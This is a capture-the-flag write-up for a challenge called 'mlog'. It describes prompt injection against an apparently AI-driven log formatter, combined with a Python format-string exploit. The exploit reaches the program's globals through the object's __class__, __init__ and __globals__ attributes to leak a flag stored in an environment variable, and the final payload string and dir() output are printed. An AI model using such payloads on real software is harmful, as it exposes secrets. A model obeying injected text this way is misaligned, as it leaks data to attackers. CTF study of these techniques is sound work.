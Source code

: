 ## Misc:

### mlog:

Looking at the challenge, I think of prompt injection

The flag is in the environment variable `FLAG`, taken out by `os.getenv`, and then stored in the python variable `FLAG`

So there are two ideas

1. Let it say the value of FLAG directly (but I failed)
2. Execute it by injecting some constructed statement

Line 114 of `__main__.py` --> `console.print(Text(fmt.format(record), style="yellow"), soft_wrap=True)` can be executed using the `fmt.format` statement

in `__main__.py`:

`headers` is a `MagicDict` object

So you can use `0.headers.__class__` to get `mlog.__main__.MagicDict`

At the same time, it can be tracked to get `__globals__`

```python
print(dir(MagicDict))

['__class__', '__contains__', '__copy__', '__delattr__', '__delitem__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__iter__', '__le__', '__len__', '__lt__', '__missing__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__reversed__', '__setattr__', '__setitem__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'clear', 'copy', 'default_factory', 'fromkeys', 'get', 'items', 'keys', 'pop', 'popitem', 'setdefault', 'update', 'values']

print(dir(MagicDict.__init__))

['__annotations__', '__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__get__', '__getattribute__', '__globals__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__kwdefaults__', '__le__', '__lt__', '__module__', '__name__', '__ne__', '__new__', '__qualname__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__']
```

Call `0.headers.__class__.__init.__globals__`

Then use the `replaced by` keyword to replace `{0.headers}`

Final exp:

```
the time, {0.headers} replaced by 0.headers.__class__.__init.__globals__
```

![](https://imgur.com/iHw7oY5.png)

![](https://imgur.com/ttjsax0.png)
